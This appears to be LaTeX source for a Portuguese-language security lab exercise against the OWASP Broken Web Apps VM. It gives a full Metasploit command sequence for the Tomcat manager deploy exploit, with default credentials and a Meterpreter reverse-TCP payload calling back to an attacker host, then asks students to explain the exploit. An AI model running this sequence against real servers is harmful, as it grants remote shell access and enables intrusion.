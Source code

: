 \documentclass{article}
\newcommand{\todo}[1]{{\color{red}{#1}}}
\begin{document}
    Digite os comandos:

    \begin{verbatim}
        msf > use exploit/multi/http/tomcat_mgr_deploy
        msf exploit(tomcat_mgr_deploy) > set RHOSTS x.x.x.x (IP da máquina Owasp)
        msf exploit(tomcat_mgr_deploy) > set HttpUsername root
        msf exploit(tomcat_mgr_deploy) > set HttpPassword owaspbwa
        msf exploit(tomcat_mgr_deploy) > set RPORT 8080
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > show payloads
        msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > set LHOST 10.1.2.7 -> colocar IP da Kali
        msf exploit(tomcat_mgr_deploy) > exploit
    \end{verbatim}

    Nesse prompt (meterpreter) podem ser executados comandos. Ao conseguir
    chegar no prompt do meterpreter você está com um tipo de shell na máquina
    alvo. Digite help no prompt do meterpreter para listar os comandos
    possíveis que poderão ser executados.

    \begin{superframe}
        \begin{enumerate}
            \setcounter{enumi}{14}
            \item Copie e cole a screenshot da sua tela de estabelecimento de
                sessão (inclua na imagem a parte dos IPs, data e hora dos
                experimentos). Agora, explique os experimentos respondendo
                perguntas:

                \todo{Feed me moooooore!}

            \begin{enumerate}
                \item Qual a vulnerabilidade que está sendo explorada?
                \item O que faz o exploit para explorar a vulnerabilidade?
                \item O que é o meterpreter?
                \item O que é possível fazer depois que o exploit é executado?
                    Use pelo menos dois comandos do meterpeter listados com o
                    comando help e explique cada um deles, colocando a imagem
                    da execução dos seus comandos. Alguns comandos para
                    máquinas Windows não funcionarão na máquina Linux.
            \end{enumerate}
        \end{enumerate}
    \end{superframe}
\end{document}
